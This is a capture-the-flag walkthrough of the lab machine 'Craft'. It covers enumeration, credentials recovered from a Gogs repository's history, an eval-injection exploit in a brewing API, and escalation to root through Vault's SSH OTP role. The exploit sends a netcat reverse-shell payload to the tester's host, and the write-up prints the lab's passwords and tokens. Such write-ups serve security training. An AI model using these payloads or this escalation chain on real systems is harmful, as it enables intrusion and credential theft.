

# Craft
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.110 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 19:34 BST
Warning: 10.10.10.110 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.110 (10.10.10.110)
Host is up (0.19s latency).
Not shown: 39240 filtered tcp ports (no-response), 26293 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
443/tcp open  https
6022/tcp open  x11  

Nmap done: 1 IP address (1 host up) scanned in 100.87 seconds

```
```
└─$ nmap -Pn -p22,443,6022 -sC -sV 10.10.10.110 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 19:37 BST
Nmap scan report for 10.10.10.110 (10.10.10.110)
Host is up (0.43s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_http-title: About
| tls-alpn: 
|_  http/1.1
|_http-server-header: nginx/1.15.8
|_ssl-date: TLS randomness does not represent time
6022/tcp open  ssh      (protocol 2.0)
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.94%I=7%D=10/26%Time=653AB201%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.33 seconds

```

- Web server
  - We have links to: `gogs.craft.htb` and `api.craft.htb/api`


- `vhosts`
```
└─$ wfuzz -u https://craft.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host: FUZZ.craft.htb' --hw 268 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://craft.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000051:   404        4 L      34 W       233 Ch      "api"
000005934:   404        1 L      4 W        19 Ch       "vault"  
```

## Foothold
### vault.craft.htb
```
└─$ curl -s -k https://vault.craft.htb
404 page not found
```
- `gobuster`
```
└─$ gobuster dir -u https://vault.craft.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 50 -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://vault.craft.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/v1                   (Status: 301) [Size: 39] [--> /v1/]

```
```
└─$ gobuster dir -u https://vault.craft.htb/v1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x -t 50 -k --exclude-length 36
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://vault.craft.htb/v1
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          36
[+] User Agent:              gobuster/3.6
[+] Extensions:              -t
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/sys                  (Status: 301) [Size: 43] [--> /v1/sys/]

```

- Endpoints point nowhere yet, I'll skip `vault` and check `api` endpoint
```
└─$ curl -s -k https://vault.craft.htb/v1/
{"errors":[]}
```
```
└─$ curl -s -k https://vault.craft.htb/v1/sys/
{"errors":["missing client token"]}
```
### api.craft.htb
- `api.craft.htb/api` looks interesting


- Majority of endpoints respond with `403`
```
{
  "message": "Invalid token or no token found."
}
```

- `/auth/login` returns in `http basic auth` window



- `gogs.craft.htb` has a repo and usernames we could use


- Let's check `craft-api` repo


- There's an issue which uses `eval` function


- We also have `test.py` which logins with empty creds
  - https://gogs.craft.htb/Craft/craft-api/src/master/tests/test.py
  - But if we look at the file history, we find `dinesh`'s creds
    - `dinesh:4aUh0A8PbVJxgd`


- We can confirm that the creds work by running `test.py`
```
└─$ python2.7 test.py | grep -v "InsecureRequestWarning:"
/usr/share/offsec-awae-wheels/urllib3-1.25.9-py2.py3-none-any.whl/urllib3/connectionpool.py:986: InsecureRequestWarning: Unverified HTTPS request is being made to host 'api.craft.htb'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
/usr/share/offsec-awae-wheels/urllib3-1.25.9-py2.py3-none-any.whl/urllib3/connectionpool.py:986: InsecureRequestWarning: Unverified HTTPS request is being made to host 'api.craft.htb'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
/usr/share/offsec-awae-wheels/urllib3-1.25.9-py2.py3-none-any.whl/urllib3/connectionpool.py:986: InsecureRequestWarning: Unverified HTTPS request is being made to host 'api.craft.htb'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
/usr/share/offsec-awae-wheels/urllib3-1.25.9-py2.py3-none-any.whl/urllib3/connectionpool.py:986: InsecureRequestWarning: Unverified HTTPS request is being made to host 'api.craft.htb'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
{"message":"Token is valid!"}

Create bogus ABV brew
"ABV must be a decimal value less than 1.0"

Create real ABV brew
null

```

- Since now we can get our token, and we control input for `eval` function we saw at `brew` endpoint
  - Let's play around with it
  - https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/
    - `__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 6666 >/tmp/f')`
```
  GNU nano 7.2                                                                                                       test.py *                                                                                                              
#!/usr/bin/env python

import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

# make sure token is valid
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)

# create a sample brew with bogus ABV... should fail.

print("Create bogus ABV brew")
brew_dict = {}
brew_dict['abv'] = '__import__(\'os\').system(\'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 6666 >/tmp/f\')'
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
print(json_data)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```

- Run the script and we get our shell


## User
- Looks like we are inside of a container
```
/opt/app # whoami
root
/opt/app # ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
15: eth0@if16: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:14:00:06 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.6/16 brd 172.20.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```
```
/opt/app # ls -lha /
total 64
drwxr-xr-x    1 root     root        4.0K Feb 10  2019 .
drwxr-xr-x    1 root     root        4.0K Feb 10  2019 ..
-rwxr-xr-x    1 root     root           0 Feb 10  2019 .dockerenv
drwxr-xr-x    1 root     root        4.0K Feb  6  2019 bin
drwxr-xr-x    5 root     root         340 Oct 28 06:29 dev
drwxr-xr-x    1 root     root        4.0K Feb 10  2019 etc
drwxr-xr-x    2 root     root        4.0K Jan 30  2019 home
drwxr-xr-x    1 root     root        4.0K Feb  6  2019 lib
drwxr-xr-x    5 root     root        4.0K Jan 30  2019 media
drwxr-xr-x    2 root     root        4.0K Jan 30  2019 mnt
drwxr-xr-x    1 root     root        4.0K Feb  9  2019 opt
dr-xr-xr-x  166 root     root           0 Oct 28 06:29 proc
drwx------    1 root     root        4.0K Oct 28 09:43 root
drwxr-xr-x    2 root     root        4.0K Jan 30  2019 run
drwxr-xr-x    2 root     root        4.0K Jan 30  2019 sbin
drwxr-xr-x    2 root     root        4.0K Jan 30  2019 srv
dr-xr-xr-x   13 root     root           0 Oct 28 06:29 sys
drwxrwxrwt    1 root     root        4.0K Oct 28 09:41 tmp
drwxr-xr-x    1 root     root        4.0K Feb  9  2019 usr
drwxr-xr-x    1 root     root        4.0K Jan 30  2019 var
```

- During repo enumeration we had `.gitignore`, where `settings.py` was included
  - It contained `db` connection settings
  - Now we can access it
```
/opt/app # cat craft_api/settings.py 
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```

- I don't see `db` running on this container, so it probably running on another container
  - We can perform `ping sweep`
```
/opt/app # for i in $(seq 1 254); do (ping -c 1 172.20.0.$i | grep "bytes from" &); done
64 bytes from 172.20.0.1: seq=0 ttl=64 time=0.182 ms
64 bytes from 172.20.0.2: seq=0 ttl=64 time=0.222 ms
64 bytes from 172.20.0.3: seq=0 ttl=64 time=0.251 ms
64 bytes from 172.20.0.4: seq=0 ttl=64 time=0.117 ms
64 bytes from 172.20.0.5: seq=0 ttl=64 time=0.164 ms
64 bytes from 172.20.0.6: seq=0 ttl=64 time=0.063 ms
64 bytes from 172.20.0.7: seq=0 ttl=64 time=0.117 ms

```

- We get plenty of ip addresses
  - Then I remembered about `dbtest.py` we saw in repo
  - We could try running it and basically enumerate the `db`
  - If I don't find anything, I'll return to IP addresses
  - Note: `cursor.fetchall()` to dump all entries
```
#!/usr/bin/env python

import sys    
import pymysql                
from craft_api import settings
                                   
# test connection to mysql database
                                                               
connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,        
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,         
                             cursorclass=pymysql.cursors.DictCursor)
    
try:                                   
    with connection.cursor() as cursor:                                 
        sql = sys.argv[1]   
        cursor.execute(sql)       
        result = cursor.fetchall()
        print(result)
        
finally:              
    connection.close()
```

- And it works
```
/opt/app # python dump_db.py 'select version()'
{'version()': '8.0.15'}
```

- Now we have new creds
```
/opt/app # python dump_db.py 'select database()'
[{'database()': 'craft'}]
/opt/app # python dump_db.py 'show tables'
[{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]
/opt/app # python dump_db.py "select * from user"
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```

- Creds for `ssh` don't work
  - But we can login as `gilfoyle` and we see another repo with `.ssh` and a private key in it


- Connect to `ssh` using the key, but it asks for passphrase
  - Password for `gilfoyle` works
```
└─$ ssh gilfoyle@10.10.10.110 -i id_rsa                        
Warning: Permanently added '10.10.10.110' (ED25519) to the list of known hosts.


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/


Enter passphrase for key 'id_rsa': 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun 16 01:32:37 2021 from 10.10.14.2
gilfoyle@craft:~$ 

```
## Root
- I see `.vault-token`
  - Could be related to `https://www.vaultproject.io/`
```
gilfoyle@craft:~$ cat .vault-token 
f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9gilfoyle
```

- We have `vault` binary and `ip` address
```
gilfoyle@craft:~$ which vault
/usr/local/bin/vault
```
```
gilfoyle@craft:~$ env
SSH_CONNECTION=10.10.16.4 59496 10.10.10.110 22
LANG=en_US.UTF-8
XDG_SESSION_ID=227
USER=gilfoyle
PWD=/home/gilfoyle
HOME=/home/gilfoyle
SSH_CLIENT=10.10.16.4 59496 22
SSH_TTY=/dev/pts/0
MAIL=/var/mail/gilfoyle
TERM=xterm-256color
SHELL=/bin/bash
VAULT_ADDR=https://vault.craft.htb:8200/
SHLVL=1
LOGNAME=gilfoyle
XDG_RUNTIME_DIR=/run/user/1001
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
_=/usr/bin/env
```

- We also have a folder `vault` and `secrets.sh` inside `craft-infra` repo


- It says that it enabled `ssh`
  - https://developer.hashicorp.com/vault/docs/commands
  - And wrote `root_otp`
  - Let's try reading it
```
gilfoyle@craft:~$ vault read ssh/roles/root_otp
Key                  Value
---                  -----
allowed_users        n/a
cidr_list            0.0.0.0/0
default_user         root
exclude_cidr_list    n/a
key_type             otp
port                 22

```

- We can read it
  - We can `ssh` using that value
  - Enter `OTP` we get and get a `root` flag
```
gilfoyle@craft:~$ vault ssh -mode=otp  -role=root_otp root@127.0.0.1
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,                                                                                                                                                                  
Vault can automatically perform this step for you.                                                                                                                                                                                          
OTP for the session is: ca51214c-416d-b33b-45f8-654cb2601fd6


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/


Password: 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun 16 01:32:59 2021 from 127.0.0.1
root@craft:~# 

```